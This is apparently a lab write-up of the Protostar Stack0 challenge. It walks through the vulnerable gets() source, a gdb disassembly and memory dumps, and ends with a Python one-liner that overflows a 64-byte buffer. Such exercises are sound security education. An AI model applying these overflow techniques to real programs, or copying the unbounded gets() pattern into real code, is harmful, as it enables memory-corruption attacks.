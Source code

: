 # PROTOSTAR : STACK 0 
[Protostar:Stack0](https://exploit.education/protostar/stack-zero/)

In this challenge we are going to learn Stack Buffer Overflow exploitation Attack. I am going to be using kali linux and gdb debugger for the rest of the challenges.

### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
### **CODE ANALYSIS**
#### Vulnerability
- Stack Buffer Overflow

In the above code the *gets()* function is vulnerable to Buffer Overflow attacks since *gets()* takes user input but we cannot determine how many characters are actually passed so the characters beyond 64 here will overflow and affect the adjacent memory addresses changing their values.

### **SOLUTION**

Below is the disassembly of the **main()**
```
user@protostar:/opt/protostar/bin$ gdb -q stack0
Reading symbols from /opt/protostar/bin/stack0...done.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave  
0x08048434 <main+64>:   ret    
End of assembler dump.
(gdb) 
```
If you notice properly at **0x08048415** there is a condition which does bitwise AND operation on eax register. If eax = 0 then the eip register(instruction pointer) jumps to **0x08048427** and prints **"Try again?\n"**.
To prevent that we need to change value of **modified** variable.
<br>
<br>
Passing input and analyzing the program.
```
(gdb) b *0x08048411
Breakpoint 1 at 0x8048411: file stack0/stack0.c, line 13.
(gdb) r
Starting program: /opt/protostar/bin/stack0 
AAAAAAAAAAAAA

Breakpoint 1, main (argc=1, argv=0xbffff854) at stack0/stack0.c:13
13      stack0/stack0.c: No such file or directory.
        in stack0/stack0.c
(gdb) x/20x $esp
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      0x41414141
0xbffff760:     0x41414141      0x41414141      0xbfff0041      0x080482e8
0xbffff770:     0xb7ff1040      0x08049620      0xbffff7a8      0x08048469
0xbffff780:     0xb7fd8304      0xb7fd7ff4      0x08048450      0xbffff7a8
(gdb) c
Continuing.
Try again?

Program exited with code 013.
(gdb) 
```

I think you have noticed that at **0xbffff760** there are **0x41**,
this is because is hexadecimal "A" is denoted as 41 and also the
address shows us the start of our **buffer** variable.
<br>
<br>
Let's pass more than 64 characters and analyze the program again...
```
(gdb) r
Starting program: /opt/protostar/bin/stack0 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, main (argc=1, argv=0xbffff854) at stack0/stack0.c:13
13      in stack0/stack0.c
(gdb) x/20x $esp
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      0x41414141
0xbffff760:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff770:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff780:     0x41414141      0x41414141      0x41414141      0x41414141
(gdb) c
Continuing.
you have changed the 'modified' variable

Program exited with code 051.
(gdb) 
```
Great the stack has overflown with **0x41** and the modified variable
value has changed.<br>

### Python script to solve the challenges

```
user@protostar:/opt/protostar/bin$ (python -c "print 'A'*65") | ./stack0
you have changed the 'modified' variable
user@protostar:/opt/protostar/bin$ 
```